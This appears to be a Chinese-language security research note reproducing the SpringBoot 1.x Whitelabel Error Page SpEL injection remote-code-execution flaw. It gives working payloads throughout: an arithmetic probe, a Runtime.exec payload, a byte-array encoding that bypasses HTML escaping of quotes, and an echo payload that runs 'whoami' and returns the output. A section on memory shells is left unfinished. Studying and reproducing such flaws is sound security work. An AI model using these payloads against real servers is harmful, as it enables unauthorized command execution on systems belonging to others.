 前置基础
---

- SpringBoot
- SpEL


相关漏洞
---

### SpringBoot 1.x Whitelabel Error Page SpEL RCE
> 2022/3/17

参考资料
- https://github.com/LandGrey/SpringBootVulExploit/
- https://github.com/spring-projects/spring-boot/issues/4763


#### 漏洞复现

payload-算术表达式
```
id=${1011+1011}
```
![image](https://user-images.githubusercontent.com/55024146/158839423-9045a29c-e31d-46e7-83ef-136caab0dc4a.png)

可见表达式被成功解析

payload-计算器
```
id=${T(java.lang.Runtime).getRuntime().exec("calc")}
```
失败，抛出异常如下

![image](https://user-images.githubusercontent.com/55024146/158841307-e68e7c5c-2ee7-4ca0-834d-10de59a227e6.png)


debug、看源码发现，在进行SpEL解析前，有以下处理
```
convertToReference:133, HtmlCharacterEntityReferences (org.springframework.web.util)
htmlEscape:90, HtmlUtils (org.springframework.web.util)
htmlEscape:63, HtmlUtils (org.springframework.web.util)
resolvePlaceholder:218, ErrorMvcAutoConfiguration$SpelPlaceholderResolver (org.springframework.boot.autoconfigure.web)
parseStringValue:147, PropertyPlaceholderHelper (org.springframework.util)
replacePlaceholders:126, PropertyPlaceholderHelper (org.springframework.util)
render:194, ErrorMvcAutoConfiguration$SpelView (org.springframework.boot.autoconfigure.web)
render:1244, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1027, DispatcherServlet (org.springframework.web.servlet)
doDispatch:971, DispatcherServlet (org.springframework.web.servlet)
doService:893, DispatcherServlet (org.springframework.web.servlet)
processRequest:970, FrameworkServlet (org.springframework.web.servlet)
doPost:872, FrameworkServlet (org.springframework.web.servlet)
service:648, HttpServlet (javax.servlet.http)
service:846, FrameworkServlet (org.springframework.web.servlet)
service:729, HttpServlet (javax.servlet.http)
...
```

![image](https://user-images.githubusercontent.com/55024146/158843615-71270054-7003-4c7e-8b1d-ad041bdfd0af.png)

对单引号、双引号、尖括号、&进行了HTML实体编码

![image](https://user-images.githubusercontent.com/55024146/158844001-1031b338-e458-4017-b7a4-44d9017600aa.png)

如图，此时传入的payload中双引号已被编码，则不再符合SpEL表达式的语法，自然也就没法成功利用。

![image](https://user-images.githubusercontent.com/55024146/158845997-16e846c5-906f-4c00-9112-92ba85abe6b4.png)

绕过：不出现单双引号
> 利用String类的特性：将byte型数组转为字符串串对象

![image](https://user-images.githubusercontent.com/55024146/158849319-16a3c8ec-6f79-4f85-bca5-15e5b1463258.png)

```
id=${T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))}
```
![image](https://user-images.githubusercontent.com/55024146/158850107-fabff113-b042-4e4b-8efd-eb668cd844f3.png)

测试效果

![image](https://user-images.githubusercontent.com/55024146/158850307-2077f252-0e4f-4972-b158-ce1821db3c1f.png)

#### 漏洞利用

##### 回显
```
(new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A").next()
```

```
id=${new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{119,104,111,97,109,105})).getInputStream()))}
```
![image](https://user-images.githubusercontent.com/55024146/158853617-24cd3b1c-3f40-474b-9389-befca11d242c.png)

##### 内存马

> 待完成




